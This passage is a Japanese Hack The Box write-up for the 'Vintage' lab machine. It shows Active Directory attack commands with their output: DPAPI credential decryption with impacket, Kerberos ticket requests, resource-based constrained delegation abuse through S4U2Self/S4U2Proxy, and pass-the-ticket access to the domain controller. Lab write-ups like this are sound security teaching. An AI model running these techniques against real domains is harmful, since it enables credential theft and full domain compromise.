SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\svc_ldap account vulnerable to asreproast attack
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\svc_ark account vulnerable to asreproast attack
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\C.Neri_adm:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\L.Bianchi_adm:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
```

`C.Neri` で認証に成功しました。`C.Neri` でもこのパスワードが使いまわされていることが分かりました。

# User.txt

nmapのスキャン結果からWinRMが動いていることが分かっているのでevil-winrmでログインします。

kerberos認証をevil-winrmで使うには `/etc/krb5.conf` を以下のように設定する必要があります。

```bash
-> % cat /etc/krb5.conf                                                    
[libdefault]
    default_realm = VINTAGE.HTB
	dns_lookup_realm = false
	dns_lookup_kdc = false
	ticket_lifetime = 24h
	forwardable = yes
	rdns = false
[realms]
        VINTAGE.HTB = {
                kdc = DC01.VINTAGE.HTB
                admin_server = DC01.VINTAGE.HTB
				default_domain = vintage.htb
        }
[domain_realm]
        vintage.htb = VINTAGE.HTB
        .vintage.htb = VINTAGE.HTB
```

C.NeriのTGTを要求して、エクスポートします。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ impacket-getTGT -dc-ip dc01.vintage.htb vintage.htb/C.Neri:Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in C.Neri.ccache
```

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ export KRB5CCNAME=C.Neri.ccache
                    
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ klist
Ticket cache: FILE:C.Neri.ccache
Default principal: C.Neri@VINTAGE.HTB

Valid starting       Expires              Service principal
2025-01-13T11:03:38  2025-01-13T21:03:38  krbtgt/VINTAGE.HTB@VINTAGE.HTB
	renew until 2025-01-14T11:03:37
```

この設定を行うことでWinRmへのアクセスに成功しました。

```bash
evil-winrm -i dc01.vintage.htb -r vintage.htb
```


user.txtを取得できました。


# Privilage Escalation

とりあえずwinPEASを実行しようとアップロードしましたが、ウイルス対策ソフトが動いており、PowerViewやwinPEASなどの列挙ツールをアップロードすることはできませんでした。

C:\Usersを見てみると `c.neri_adm` というローカルアカウントがありました。Administratorになるまえにこいつにまずは横移動する必要がありそうです。


## DPAPIの利用による認証情報の取得

自動での列挙ができないので手動での列挙をします。

PowerShellの履歴やDPAPIから認証情報が取得できるか試しました。

PowerShellの履歴は `Get-Hitory` コマンドか `C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine` から見ることができまが、今回は何も見つかりませんでした。

つづいてDPAPIを調べてみます。

DPAPIとは、Windowsのユーザーやシステムの情報を暗号化するためのAPIです。データはユーザーのディレクトリに保存され、ユーザーのパスワードから派生したユーザー固有のmasterkeyによって保護されます。

マスターキーは通常、以下の場所にあります。

```powershell
C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Protect\<SUID>
```

今回はmasterkeyが２つあったので両方ダウンロードしときます。


ダウンロードするときなんかエラーが出てますが、問題なくダウンロードできていました。


次に、DPAPIで保護されたデータが含まれる資格情報ファイルは以下の場所にあります。

```
C:\Users\<USERNAME>\AppData\Local\Microsoft\Credentials
C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Credentials
```

各フォルダから１ずつダウンロードします。


masterkeyと資格情報ファイルがダウンロードできたのでimpacket-dpapiでオフラインで解析します。

結果として、masterkeyは `99cf41a3-a552-4cf7-a8d7-aca2d6f7339b`, 資格情報ファイルは `C4BB96844A5C9DD45D5B6A9859252BA6` を使うことで `C.Neri_adm` のパスワードを取得することができました。

まず、マスターキーを復号化を行います。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```

masterkeyが複合できたのでmasterkeyを使用してDPAPIで保護されたデータを復号化を行います。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description : 
Unknown     : 
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312
```

C.Neri_admのパスワード `Uncr4ck4bl3P4ssW0rd0312` の復号に成功しました。

今回はこのマシンがアンチウィルスソフトのせいでツールをアップロードできないので使えないのですが、[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI), mimikazを使うことで同じことができます。

パスワードを取得することができたのでこれで `C.Neri_adm` TGTを取得します。これで `C.Neri_adm` を制御できます。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ impacket-getTGT -dc-ip dc01.vintage.htb vintage.htb/C.Neri_adm:Uncr4ck4bl3P4ssW0rd0312
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in C.Neri_adm.ccache
```

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ export KRB5CCNAME=C.Neri_adm.ccache
                                                 
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ klist
Ticket cache: FILE:C.Neri_adm.ccache
Default principal: C.Neri_adm@VINTAGE.HTB

Valid starting       Expires              Service principal
2025-01-13T11:05:46  2025-01-13T21:05:46  krbtgt/VINTAGE.HTB@VINTAGE.HTB
	renew until 2025-01-14T11:05:46
```

## S4U2SelfとS4U2Proxyを利用した成りすまし攻撃

BloodHoundで `C.Neri_adm` の権限を見てみると、 `DelegatedAdmins` に対して `GenericWrite` の権限をもっていることが分かりました。


そして、 `C.Neri` は`ServiceManagers` に属していることが分かっています。


`ServiceManagers` のメンバーはサービスアカウントに対して `GenericAll` の権限を持っています。現在制御できるサービスアカウント３つのうち `svc_sql` のパスワードを取得しています。



`DelegatedAdmins` を調べてみると、このグループには `L.Bianchhi_adm` , `C.Neri_adm` という２人のユーザーが属していることが分かりました。


`L.Bianchi_adm` は `Domain Admins` のグループであることが分かりました。


`DelegatedAdmins` は名前からして委任の管理をするグループだと思うので、コンピュータアカウントやユーザーに委任の設定がされていないか調べてみます。

### Resource-Based Constrained Delegation (リソースベースの制約付き委任)

bloodhoundはどのような委任が設定されているかが分からないので[powerview.py](https://github.com/aniqfakhrul/powerview.py)で列挙を行います。

コンピュータアカウントのDC01に `Resource-based Constrained Delegation（リソースベースの制約付き委任)` が `DelegatedAdmins` に対して設定されていることが分かりました。

```bash
powerview -k --no-pass vintage.htb/C.Neri_adm@dc01.vintage.htb
```

```powershell
Get-DomainComputer -RBCD -Select cn,msDS-AllowedToActOnBehalfOfOtherIdentity
Get-DomainObject -Identity S-1-5-21-4024337825-2033394866-2055507597-1131
```


netexecでも確認できました。こちらの方が分かりやすいです。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ netexec ldap dc01.vintage.htb -k --use-kcache --find-delegation
LDAP        dc01.vintage.htb 389    DC01             [*] None (name:DC01) (domain:vintage.htb)
LDAP        dc01.vintage.htb 389    DC01             [+] vintage.htb\C.Neri_adm from ccache 
LDAP        dc01.vintage.htb 389    DC01             AccountName     AccountType DelegationType             DelegationRightsTo
LDAP        dc01.vintage.htb 389    DC01             --------------- ----------- -------------------------- ------------------
LDAP        dc01.vintage.htb 389    DC01             DelegatedAdmins Group       Resource-Based Constrained DC01$   
```

`msDS-AllowedToActOnBehalfOfOtherIdentity`は、Kerberos制約付き委任 (Resource-Based Constrained Delegation) を設定するために使用されるActive Directory属性です。この属性を使用すると、特定のアカウントが他のアカウントに代わってアクションを実行することが許可されます。

今回のケースでは、DC01というドメインコントローラーの`msDS-AllowedToActOnBehalfOfOtherIdentity`属性が`DelegatedAdmins`というグループに対して設定されています。これは、`DelegatedAdmins`グループに属するアカウントが、DC01上で他のアカウントの代理として動作することが許可されていることを意味します。

これらの情報をまとめると以下のようになります。

### 権限の確認

1. **msDS-AllowedToActOnBehalfOfOtherIdentity**:
   - DC01の`msDS-AllowedToActOnBehalfOfOtherIdentity`が`DelegatedAdmins`グループに対して設定されている。
   - `DelegatedAdmins`グループには、`L.Bianchi_adm`が含まれている。
2. **権限の所有者**:
   - `C.Neri_adm`は`DelegatedAdmins`グループに対して`GenericWrite`の権限を持っている。
   - `C.Neri`は`svc_sql`に対して`GenericAll`の権限を持っている。

### 理論的背景

- msDS-AllowedToActOnBehalfOfOtherIdentity
  - これは、Kerberosのプロトコル拡張であるリソースベースの制約委任（Resource-Based Constrained Delegation, RBCD）を設定するための属性です。この属性が設定されていると、特定のアカウントが他のアカウントとして動作できるようになります。
  - 今回は、`DelegatedAdmins`グループに対してこの属性が設定されているため、`svc_sql`ユーザーをこのグループに追加することで、`svc_sql`が他の`DelegatedAdmins`メンバー（`L.Bianchi_adm`を含む）として動作できるようになります。
- S4U2SelfとS4U2Proxy
  - `S4U2Self`（Service for User to Self）を使うと、サービスはクライアントのTGTなしで、クライアントのTGSを取得できます。
  - `S4U2Proxy`（Service for User to Proxy）を使うと、取得したクライアントのTGSを使って、他のサービスへのTGSを取得できます。これは、リソースベースの制約委任の一部です。
  - 今回のシナリオでは、`svc_sql`が`DelegatedAdmins`に追加されることで、`L.Bianchi_adm`としてのTGSを取得し、そのTGSを使って他のサービスにアクセスすることが可能になります。

### 実践

まずは `svc_sql` を `DelegatedAdmins` のグループに追加します。

```bash
powerview -k --no-pass vintage.htb/C.Neri_adm@dc01.vintage.htb
```

```powershell
Add-DomainGroupMember -Identity DelegatedAdmins -Members svc_sql
Get-DomainGroupMember -Identity DelegatedAdmins
```


今度は `C.Neri` から `svc_sql` にServicePrincipalNameを設定します。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ export KRB5CCNAME=C.Neri.ccache    
                    
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ klist
Ticket cache: FILE:C.Neri.ccache
Default principal: C.Neri@VINTAGE.HTB

Valid starting       Expires              Service principal
2025-01-13T11:03:38  2025-01-13T21:03:38  krbtgt/VINTAGE.HTB@VINTAGE.HTB
	renew until 2025-01-14T11:03:37
```

```bash
powerview -k --no-pass vintage.htb/C.Neri@dc01.vintage.htb
```

```powershell
Set-DomainObject -Identity svc_sql -Set 'ServicePrincipalName=cifs/fake'
Get-DomainObject -Identity svc_sql -Properties ServicePrincipalName
```


つづいて `svc_sql` のTGTを取得します。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ impacket-getTGT -dc-ip dc01.vintage.htb vintage.htb/svc_sql:Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in svc_sql.ccache
```

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ export KRB5CCNAME=svc_sql.ccache 
                    
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ klist
Ticket cache: FILE:svc_sql.ccache
Default principal: svc_sql@VINTAGE.HTB

Valid starting       Expires              Service principal
2025-01-13T11:10:25  2025-01-13T21:10:25  krbtgt/VINTAGE.HTB@VINTAGE.HTB
	renew until 2025-01-14T11:10:25
```

S4U2Selfを使用してL.Bianchi_admのTGSを取得します。

```bash
impacket-getST -spn cifs/dc01.vintage.htb -impersonate L.Bianchi_adm vintage.htb/svc_sql:Zer0the0ne
```


攻撃に成功し、`L.Bianchi_adm` のTGSチケットを取得できました。

## Pass The Ticket

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ export KRB5CCNAME=L.Bianchi_adm@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache

┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ klist                                                      
Ticket cache: FILE:L.Bianchi_adm@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
Default principal: L.Bianchi_adm@vintage.htb

Valid starting       Expires              Service principal
2025-01-13T11:16:12  2025-01-13T21:16:11  cifs/dc01.vintage.htb@VINTAGE.HTB
	renew until 2025-01-14T11:16:10
```

ドメインコントローラーには `L.Bianchi_adm` のローカルアカウントが存在しないのでpsexecを使うことはできません。

`impacket-smbclient`,`impacket-wmiexec`で`L.Bianchi_adm` としてアクセスすることでフラグを取得できました。

```bash
impacket-smbclient -k -no-pass dc01.vintage.htb
```



```bash
impacket-wmiexec -k -no-pass dc01.vintage.htb
```


